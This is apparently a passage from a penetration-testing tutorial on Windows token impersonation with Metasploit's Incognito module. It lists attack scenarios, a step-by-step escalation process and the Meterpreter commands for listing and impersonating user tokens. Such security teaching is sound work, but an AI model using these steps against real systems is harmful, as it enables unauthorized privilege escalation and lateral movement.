 ### 🚪 **Common Attack Scenarios:**
- **Service Account Escalation** from limited service to administrator
- **Lateral Movement** using tokens from other logged-in users
- **Privilege Escalation** from standard user to SYSTEM level access
- **Post-Exploitation** activities after initial compromise

---

## 📦 Installation and Setup

### **Already Installed On:**
- ✅ Kali Linux with Metasploit Framework
- ✅ Parrot Security OS
- ✅ Most penetration testing distributions

### **Check If Everything Works:**
```bash
# Check if Metasploit is installed
msfconsole --version
# Expected output: Framework Version 6.x.x

# Start Metasploit database
msfdb start

# Test incognito availability
msfconsole -q -x "load incognito; list_tokens -h; exit"
# Expected: Help text for list_tokens command
```

### **Basic Requirements:**
- Active Meterpreter session on Windows target
- Exploited service with sufficient privileges to access tokens
- Target system with other user sessions or cached tokens
- Understanding of Windows user account types

---

## 🔧 Basic Usage and Simple Steps

### **📋 Simple Attack Process:**
1. **🎯 Get Initial Access:** Exploit vulnerable service to gain Meterpreter session
2. **🔧 Load Incognito:** Add token manipulation capabilities
3. **🔍 Enumerate Tokens:** Find available user tokens in system memory
4. **👤 Impersonate Token:** Assume identity of target user
5. **✅ Verify Access:** Confirm privilege escalation success
6. **🏆 Access Resources:** Use new privileges to achieve objectives

### **⚙️ Basic Command Structure:**
```bash
# Load incognito module
load incognito

# List available tokens
list_tokens -u

# Impersonate specific token
impersonate_token DOMAIN\\username

# Return to original context
rev2self
```
